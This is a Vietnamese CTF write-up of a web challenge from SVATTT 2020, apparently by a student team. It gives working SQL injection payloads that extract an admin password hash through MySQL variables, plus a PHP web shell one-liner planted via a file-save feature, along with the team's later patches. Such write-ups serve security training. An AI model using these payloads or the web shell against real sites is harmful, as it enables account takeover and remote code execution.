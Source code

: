 # Web01
## Source
https://drive.google.com/file/d/1tDI-W9BOB_K5ssLrbaJDlgqyX6l1Jzth/view
## Mô tả sơ lược
Trang web cho phép các bạn tạo nick và đăng nhập. Dựa trên sở thích của bạn trang web sẽ suggest để các bạn có thể match với những người khác. Rất thích hợp với các bạn FA  
![FA](/img/alone.jpg)
## Analysis
Source được public và gồm các file `dbconnect.php`, `index.php`, `login.php`, `logout.php`, `match.php`, `profile.php` và `register.php`  
Các file `dbconnect.php`, `index.php` và `logout.php` khá đơn giản và không có gì đặc biệt. Ta đi sâu vào các file còn lại
### File register.php
Có 2 đoạn code php chính là đoạn kiểm tra một user có tồn tại hay không
![reg_1](/img/reg1.jpg)
và đoạn đăng ký một user mới
![reg_2](/img/reg2.jpg)
Ta thấy đoạn kiếm tra một user có tồn tại hay không bị lỗi SQL injection khi truyền thẳng `$_GET["user"]` vào câu query. Tuy nhiên ta bị giới hạn 25 kí tự ở đây, đồng thời server cũng không trả về kết quả của câu `SELECT` mà chỉ trả về user có exists hay không.  
Ở đoạn đăng ký user mới, mặc dù đã dùng hàm [mysqli_real_escape_string](https://www.php.net/manual/en/mysqli.real-escape-string.php) nhưng nếu để ý ta thấy 2 biến `$yob` và `$id_card` khi insert không nằm trong 2 dấu `'`, và khi đó ta vẫn có thể SQL injection vào 2 biến này. Tuy nhiên đời không như là mơ, 2 biến này bị giới hạn độ dài là 4 ký tự :sob:
### File login.php
Đoạn code check login khá đơn giản
![login](/img/login.jpg)
Từ đây ta có thể biết được cột chứa password tên là `fa_dating_password`.
### File profile.php
Trang này sẽ hiện thị thông tin cá nhân lên, bao gồm `name`, `yob` và `interest` và `id_card`. Đồng thời cho phép cập nhật description - sẽ được hiển thị ở trang `match.php`.
### File match.php
Trang sẽ hiển thị ngẫu nhiên một người có chung sở thích với mình. Ngoài ra nếu là `admin` thì sẽ được quyền lưu lại tên và tuổi của một user vào một file bất kỳ.
![match](/img/match.jpg)
## Exploit
Ta thấy nếu ta đăng nhập được vào nick `admin` thì có thể tạo một file có tên bất kỳ với dữ liệu là `name` của một user → tạo một nick có `name` là 
``` PHP
<?php system($_GET["cmd"]);?>
```
và lưu dưới tên `shell.php` là ta sẽ có một web shell trên server.  
Vậy đầu tiên ta cần đăng nhập vào nick `admin` trước.  
Team mình tiếp cần lỗi SQLi ở phần kiểm tra user tồn tại. Với giới hạn 25 ký tự và tên cột là `fa_dating_password` (18 ký tự) nên team mình đã không dùng các cách SQLi thông thường như blind, error-based, ..., thay vào đó tìm cách extract password mà không dùng đến tên cột. Và cách mà team mình sử dụng là kết hợp [local variable của mysql](https://dev.mysql.com/doc/refman/8.0/en/declare-local-variable.html) và lỗi SQLi ở phần đăng ký user mới.  
Ý tưởng là biến câu query check exists thành `SELECT * FROM fa_dating_users WHERE fa_dating_username = 'admin' INTO @var1,@var2,@var3,@var4,@var5,@var6,@var7`, và sau đó biến câu query tạo mới user thành `INSERT INTO fa_dating_users VALUES ('username','password','pin',yob,'interest',@var2,'name')`. Khi đó cột `fa_dating_id_card` sẽ lưu giá trị `@var2` tương ứng với password của `admin`, và ta có thể đọc được ở trang `profile.php`.  
Payload ban đầu của team mình `$_GET["user"]="admin'into@,@x,@,@,@,@,@#"` (vừa đủ 25 ký tự :joy:), `$_POST["id_card"]="@x__"` (`_` là khoảng cách)    
Tuy nhiên đời ko như là mơ :sob:, team mình không biết cấu trúc database như nào, nhưng sau khi tạo nick xong thì ở `profile.php` không hiện ra gì hết. Mình đoán do cột `fa_dating_id_card` đã được setup sao cho không insert quá 4 ký tự được. Và đây là lúc biến `$yob` có tác dụng. Team mình sẽ dùng biến `$yob` để đẩy `@x` sang cột `fa_dating_name`.  
Và payload cuối cùng:  
`$_GET["user"]="admin'into@,@x,@,@,@,@,@#"`  
`$_POST["yob"]="0, 0"`  
`$_POST["id_card"]="@x)#"`  
Mọi thứ đều vừa khít :heart_eyes:   
Lúc này thì đăng nhập vào và có được md5 của password, tìm được password của `admin` là `handsomeboy`.  
Việc có shell khá đơn giản như mình đã trình bày ở trên, RCE và có flag thôi.
## Tản mạn
Ban đầu nhóm mình tốn khá nhiều thời gian cho việc bypass cái check length `<= 25` do không nhìn thấy chỗ SQLi ở phần tạo user. Gần 4 tiếng đầu diễn ra trong tâm trạng căng thẳng khi mà bên pwn và crypto đều liên tục có điểm về, trong khi web thì dậm chân tại chỗ :cold_sweat:.  
Sau đó thì ngồi đọc kĩ code lại thì tìm ra bug ở `$yob` và `$id_card` thì tâm trạng mới đỡ hơn, và lại hoảng khi payload ban đầu không hoạt động  như mong muốn, may mà lúc đó vẫn giữ được bình tĩnh để suy nghĩ ra việc cột `fa_dating_id_card` bị giới hạn độ dài.  
 Đỉnh điểm là khi team mình đã có shell nhưng có flag do mình quá ngu linux :sob:. Tốn gần 20p để tìm cách đặt reverse shell và nhận ra máy không mở port ra ngoài, sau đó lúc team `Nupakachi` submit được flag thì con web shell của mình cũng bị mất luôn, lúc đó mới nhận ra máy chủ reset khi có đội submit flag. May mắn là `Nupakachi` không kịp patch và mình đã up shell lên lại. Cũng nói thêm là lúc mình đang tìm cách đặt reverse shell thì có thấy shell của một đội khác nên đã nói @Lâm việc sẵn cái patch, mình thì chưa kịp remove cái shell đó thì đã bị sút =)), nhưng cũng nhờ thế mà lúc chiếm lại được Web01 thì đã có sẵn patch trong người rồi. Mặc dù patch vẫn thọt do password của `admin` vẫn là `handsomeboy` nên có `mysqli_real_escape_string` biến `$_GET["user"]` thì vẫn bị up shell, lần patch thứ 2 thì team mình dùng thêm `htmlspecialchars` để escape cái `name`, từ đó không up web shell được nữa.  
 ## Kết
 Cảm ơn BTC đã tạo một sân chơi bổ ích cho các bạn sinh viên, cảm ơn thầy Duy và và khoa Công nghệ thông tin đã tạo điều kiện cho bọn em được thi SVATTT 2020, cảm ơn các anh chị trong CyberJutsu đã giúp bọn em trong việc luyện tập các challenge